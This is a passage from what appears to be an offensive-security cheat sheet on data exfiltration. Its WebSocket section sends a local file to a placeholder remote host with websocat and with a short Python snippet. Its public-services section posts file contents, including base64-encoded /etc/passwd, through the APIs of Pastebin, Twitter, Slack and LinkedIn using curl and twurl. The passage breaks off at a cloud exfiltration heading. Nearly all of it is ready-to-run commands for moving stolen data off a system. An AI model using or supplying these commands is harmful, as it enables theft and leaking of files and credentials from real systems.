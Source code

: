 #### WebSockets
- **Exfiltrate Data Over WebSockets Using `websocat`:**
	```bash
	cat /path/to/local_file | websocat ws://<remote_ip>/upload
	```
- **Automate WebSocket Exfiltration with Python:**
	```bash
	import websocket ws = websocket.WebSocket() ws.connect("ws://<remote_ip>/upload") with open("/path/to/local_file", "rb") as f:     ws.send(f.read()) ws.close()
	```

# Data Exfiltration via Public Services

#### Pastebin
- **Exfiltrate Data to Pastebin Using the API:**
	```bash
	curl -X POST -d "api_dev_key=<API_KEY>&api_paste_code=$(cat /path/to/local_file)" https://pastebin.com/api/api_post.php
	```

#### Twitter
- **Tweet Exfiltrated Data Using Twitter API:**
	```bash
	curl -X POST "https://api.twitter.com/2/tweets" -H "Authorization: Bearer <ACCESS_TOKEN>" -d '{"text":"Exfiltrated Data: $(cat /path/to/local_file)"}'
	```

	```bash
	echo "Exfiltrating Data" | twurl -d "status=<data_to_exfiltrate>" /1.1/statuses/update.json
	
	cat /etc/passwd | base64 | twurl -d "status=$(cat -)" /1.1/statuses/update.json
	```

#### Slack
- **Send Exfiltrated Data to a Slack Channel:**
	```bash
	curl -X POST -H 'Authorization: Bearer <ACCESS_TOKEN>' -H 'Content-type: application/json' \
	--data '{"channel":"#channel_name", "text":"Exfiltrated Data: '"$(cat /path/to/local_file)"'"}' \
	https://slack.com/api/chat.postMessage
	```

#### LinkedIn
- **Send Exfiltrated Data Using LinkedIn:**
	```bash
	curl -X POST "https://api.linkedin.com/v2/messages" -H "Authorization: Bearer <ACCESS_TOKEN>" -d '{"recipients":[{"person":"<target_id>"}],"message":{"body":"Exfiltrated Data: $(cat /path/to/local_file)"}}'
	```

# Data Exfiltration via Cloud

